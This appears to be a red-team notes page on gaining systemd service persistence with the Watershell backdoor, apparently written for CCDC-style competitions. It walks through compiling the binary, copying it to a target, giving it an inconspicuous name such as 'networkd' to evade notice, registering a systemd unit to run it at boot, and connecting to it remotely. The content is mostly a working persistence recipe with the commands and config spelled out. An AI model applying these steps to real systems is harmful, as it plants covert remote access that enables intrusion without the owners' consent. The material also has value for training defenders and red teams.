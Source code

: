 ```yaml
---
description: Systemd Service Persistence using Watershell as an example.
---
```


# Systemd Service Persistence

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC Regionals. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool and why I fell in love with it.&#x20;

General steps for persistence with Watershell:

1. Compile the binary:&#x20;

```bash
g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}
```

2\. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to comilation.

3\. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`

4\. Setup a service to execute the binary, the following demonstrates an example configuration:

```bash
[Unit]
Description=persistence

[Service]
Type=simple
ExecStart=/bin/networkd

[Install]
WantedBy=multi-user.target
```

1. Connect to the target using `watershell-cli.py` using the following command:\
   `python3 watershell-cli.py -t [IP] -p [PORT]`

### References

{% embed url="https://redcanary.com/blog/attck-t1501-understanding-systemd-service-persistence" %}
